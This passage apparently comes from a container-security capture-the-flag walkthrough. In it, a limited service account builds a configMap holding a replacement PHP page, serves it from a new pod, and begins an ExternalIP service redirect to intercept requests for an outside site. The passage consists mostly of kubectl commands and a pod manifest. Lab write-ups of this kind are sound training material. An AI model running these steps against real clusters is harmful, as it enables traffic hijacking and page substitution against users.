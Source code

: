         While there are quite a few volume types out there, we're going to use an unusual one for this exercise. Our `davinci` service account is allowed to create configMaps. We'll make a configMap from the `static-inclusion.php` file we just created and then insert that configMap in as the contents of the web server's `html` directory.

        Use kubectl to create a configMap called `staticinclusionfile` in the `ellingson-min` namespace:

        ```shell
        kubectl-davinci -n ellingson-min create configmap staticinclusionfile --from-file=static-inclusion.php
        ```

158. Take a look at the configMap:

        ```shell
        kubectl-davinci -n ellingson-min get configmap staticinclusionfile -o yaml
        ```

159. Let's create a pod to serve a replacement `static-inclusion.php` page out of that configMap:

        ```shell
        cat <<END >pod-serve-static.yaml
        apiVersion: v1
        kind: Pod
        metadata:
          name: serve-static
          namespace: ellingson-min
          labels:
            app: serve-static
        spec:
          containers:
          - name: serve-static
            image: docker-registry:5000/webserver-without-php
            volumeMounts:
            - name: staticinclusion
              mountPath: /var/www/html/
          volumes:
          - name: staticinclusion
            configMap:
                name: staticinclusionfile  
          imagePullSecrets:
          - name: regcred-docker-registry-5000
        END
        ```

160. Start up the pod:

        ```shell
        kubectl-theplague apply -f pod-serve-static.yaml
        ```

161. Next, we're on to step 3. We need to create an ExternalIP service to redirect requests for an external IP back over to our pod. In another tab, look up the IP address for `static.containersecurityctf.com`.  At the time of this writing, it is `147.182.229.202`. Go back to your Metasploit tab and put that in a variable:
